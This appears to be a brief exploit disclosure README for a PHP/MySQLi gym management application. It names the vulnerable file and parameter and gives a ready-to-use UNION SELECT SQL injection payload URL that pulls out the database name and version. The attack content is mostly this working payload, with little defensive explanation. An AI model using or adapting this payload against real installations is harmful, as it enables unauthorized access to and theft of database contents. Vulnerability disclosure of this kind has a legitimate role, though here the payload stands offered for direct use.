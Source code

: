 # Gym-Management-System  
* Exploit Title: Gym Management System 1.0 - 'id' SQL Injection  
*  Vendor Homepage: https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html  
* Software Link: https://www.sourcecodester.com/download-code?nid=14541&title=Gym+Management+System+using+PHP%2FMySQLi+with+Source+Code  
* Version: 1.0  
 
* parameter Vulnerable: id  
* Vulnerable file: manage_user.php  
![iamge](https://github.com/BigTiger2020/Gym-Management-System/blob/main/06.png)  
* paylaod: http://ip/gym/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database(),version()),NULL,NULL,NULL--  
![iamge](https://github.com/BigTiger2020/Gym-Management-System/blob/main/05.png)   
